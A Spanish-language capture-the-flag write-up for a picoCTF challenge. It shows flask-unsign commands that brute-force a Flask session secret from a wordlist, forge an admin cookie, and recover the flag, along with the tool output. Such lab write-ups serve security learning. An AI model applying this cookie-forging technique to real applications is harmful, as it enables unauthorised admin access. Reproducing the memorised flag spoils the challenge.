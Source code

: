 ## Objetivo
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/60f76192f6e1fea6f4e6e8c5fc9a6a27/server.py) [http://mercury.picoctf.net:44693/](http://mercury.picoctf.net:44693/)

## Solución
Intentamos con la cookie recomendada y funciona pero no da la flag.
nos da una cookie de sesion la tomamos y llevamos a jwt
Revisamos el server.py y notamos que hay una lsita con las cookies, las guardamos como una wordlist (con su formato debido) 
utilizamos el comando
flask-unsign -u --server "http://mercury.picoctf.net:44693/" --wordlist wordlistcookies.txt
que nos da:
```
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZvxV7Q.nFxs79gniLvqhNzlu4HC4kqEnEY
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'butter'
```


ahora generamos la cookie para admin con:
flask-unsign -s --cookie "{'very_auth': 'admin'}" -S butter

nos da:
`eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZvxUtw.G-_3G1ZgUfLyjglo6VcG5j_x0S0`
la utilizamos y:
`picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}`

## Notas Adicionales
Se debe hacer uso de una wordlist de cookies
Debemos instalar flask-unsign con pip: pip3 install flask-unsign

## Referencias
https://jwt.io/